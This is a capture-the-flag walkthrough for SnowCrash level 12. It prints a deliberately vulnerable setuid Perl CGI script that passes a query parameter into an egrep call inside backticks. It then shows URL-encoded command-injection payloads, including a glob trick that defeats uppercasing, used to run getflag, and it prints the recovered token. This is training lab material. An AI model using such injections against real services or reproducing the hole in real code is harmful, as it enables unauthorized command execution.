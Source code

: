 # Level12

## Walkthrough

We list the files in the home directory.

```bash
level12@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ file level12.pl 
level12.pl: setuid setgid a perl script, ASCII text executable
```

`level12` is a Perl script owned by `flag12` and has the setuid flag.

We display the content of the script.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
    ($f, $s) = split(/:/, $line);
    if($s =~ $nn) {
      return 1;
    }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
    print("..");
  } else {
    print(".");
  }    
}

n(t(param("x"), param("y")));
```

From the first 2 lines, it seems the script is probably a HTTP server running on port 4646.

```bash
level12@SnowCrash:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=2012 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::4646                 :::*                    LISTEN      -               
tcp6       0      0 :::4747                 :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::4242                 :::*                    LISTEN      -   
```

The last lines of the script inform us that the server accepts 2 query parameters : `x` and `y`. Then, it calls a subroutine to perform some string manipulations, but only returns `1` or `0` and prints either `.` or `..`.

With our experience acquired from past levels, we can guess that the sole line of instructions which seems to be exploitable is the one calling the `egrep` command. Like previous levels, we might use command substitution to run the `getflag` command, because the backticks in Perl act like a `system` call which returns the output printed on stdout.  
The `$xx` variable refers to the `x` query parameter.

```bash
level12@SnowCrash:~$ curl localhost:4646?x=$(getflag)
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
curl: (6) Couldn't resolve host ''
..level12@SnowCrash:~$ curl localhost:4646?x="$(getflag)"
curl: (3) Illegal characters found in URL
```

If we pass `$(getflag)`, the command substitution happens in the current context.  
The first argument in the `egrep` command is enclosed into double quotes, so we don't need to write them ourselves but if we don't the command will be run instantly as previously seen. One solution is to encode these special characters to prevent the shell from interpreting the command.

```bash
# $(getflag)
level12@SnowCrash:~$ curl localhost:4646?x=%24%28getflag%29
..level12@SnowCrash:~$
```

Nothing happens, probably because all the text printed on stdout is stored in the `@output` variable. The solution might be to store the output of our command in a temporary file.

```bash
# $(getflag > /tmp/token)
level12@SnowCrash:~$ curl localhost:4646?x=%22%24%28getflag%29%20%3E%20%2Ftmp%2Ftoken%22
.level12@SnowCrash:~$ cat /tmp/token
cat: /tmp/token: No such file or directory
```

We analyze the code to check if we missed something. Indeed, before calling `egrep` the script replaces all lowercase characters by an uppercase, and trims all space characters at the start of the string.  
This means that our argument `%22%24%28getflag%29%20%3E%20%2Ftmp%2Ftoken%22` is transformed to `%22%24%28GETFLAG%29%20%3E%20%2FTMP%2FTOKEN%22`.

We cannot store the command inside an environment variable because it will only belong to user `level13`.  
Using a file to store our command is another option, but because of the uppercase replacement, we cannot create one in `/tmp` and pass it to `x` as it will be looking for `/TMP/...`.  

We know that a special character `*` exists in shell to match any character.

```bash
level12@SnowCrash:~$ mkdir /tmp/LEVEL12
level12@SnowCrash:~$ vim /tmp/LEVEL12/SCRIPT
level12@SnowCrash:~$ cat /tmp/LEVEL12/SCRIPT
#!/bin/sh

getflag > /tmp/LEVEL12/TOKEN
level12@SnowCrash:~$ chmod +x /tmp/LEVEL12/SCRIPT
level12@SnowCrash:~$ curl localhost:4646?x=%24%28%2F%2A%2FLEVEL12%2FSCRIPT%29
..level12@SnowCrash:~$ ^C
level12@SnowCrash:~$ cat /tmp/LEVEL12/TOKEN
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

## Resources

- [What's the difference between Perl's backticks, system, and exec?](https://stackoverflow.com/questions/799968/whats-the-difference-between-perls-backticks-system-and-exec)
- [Special characters like @ and & in cURL POST data](https://stackoverflow.com/questions/10060093/special-characters-like-and-in-curl-post-data)
- [URL encoder](https://www.urlencoder.org)
